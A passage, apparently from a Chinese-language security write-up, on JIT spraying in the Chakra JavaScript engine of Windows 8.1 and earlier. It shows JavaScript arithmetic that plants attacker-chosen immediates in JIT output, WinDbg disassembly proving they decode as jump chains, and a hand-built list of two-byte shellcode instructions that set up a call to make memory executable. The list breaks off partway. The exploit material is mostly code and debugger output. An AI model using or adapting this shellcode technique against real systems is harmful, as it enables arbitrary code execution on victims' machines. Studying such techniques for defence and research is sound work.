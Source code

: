     
    
    ...
    a += 0x18EB9090/2;
    a += 0x18EB9090/2;
    ...
    

在某几个条件同时满足的情况下，可以让Windows 8.1及其之前的Chakra引擎生成类似这样的机器指令：

    
    
    ...
    05010090 81c19090eb18    add     ecx,18EB9090h
    05010096 0f80d6010000    jo      05010272
    0501009c 8bf9            mov     edi,ecx
    0501009e 8b5dbc          mov     ebx,dword ptr [ebp-44h]
    050100a1 f6c301          test    bl,1
    050100a4 0f8413020000    je      050102bd
    050100aa 8bcb            mov     ecx,ebx
    050100ac 81c19090eb18    add     ecx,18EB9090h
    050100b2 0f8005020000    jo      050102bd
    050100b8 8bf9            mov     edi,ecx
    050100ba 8b5dbc          mov     ebx,dword ptr [ebp-44h]
    050100bd f6c301          test    bl,1
    050100c0 0f8442020000    je      05010308
    050100c6 8bcb            mov     ecx,ebx
    ...
    0:017> u 05010090 + 2 l 3
    05010092 90              nop
    05010093 90              nop
    05010094 eb18            jmp     050100ae
    0:017> u 050100ae l 3
    050100ae 90              nop
    050100af 90              nop
    050100b0 eb18            jmp     050100ca
    

所以只要写出每条指令长度不大于2字节的Shellcode，就可以嵌入到立即数中。因为实际产生的立即数是JavaScript中数字的2倍，所以使用的指令如果是2字节，第1字节必须为偶数。这是完全可能做到的。

    
    
    0x5854   // push esp--pop eax    ; eax = esp, make eax writeable
    0x5252   // push edx--push edx   ; esp -= 8
    0x016A   // push 1
    0x4A5A   // pop  edx--dec edx    ; edx = 0
    0x5E52   // push edx--pop esi    ; esi = 0
    0x40B6   // mov  dh, 0x40        ; edx = 0x4000, NumberOfBytesToProtect
    0x5452   // push edx--push esp   ; *esp = &NumberOfBytesToProtect
    0x5B90   // pop  ebx             ; ebx = &NumberOfBytesToProtect
    0x14B6   // mov  dh, 0x14
    0x14B2   // mov  dl, 0x14
    0x5266   // push dx
    0x5666   // push si              ; *esp = 0x14140000
    0x525A   // pop  edx-push edx    ; edx = 0x14140000
    0x5E54   // push esp--pop  esi   ; esi = &BaseAddress, 
    0x5454   // push esp--push esp   ; push &OldAccessProtection 
    0x406A   // push 0x40            ; PAGE_EXECUTE_READWRITE
    0x5390   // push ebx             ; push  &NumberOfBytesToProtect
    0x5690   // push esi             ; push &BaseAddress
    0xFF6A   // push -1              ; 
    0x5252   // push edx--push edx   ; set ret addr
    0x5290   // push edx             ; prepare esp for fs:[esi]
    0x016A   // push 1
    0x4A5A   // pop  edx--dec edx    ; edx = 0
    0xC0B2   // mov  dl, 0xC0
    0x5E52   // push edx--pop esi
    0x5F54   // push esp--pop edi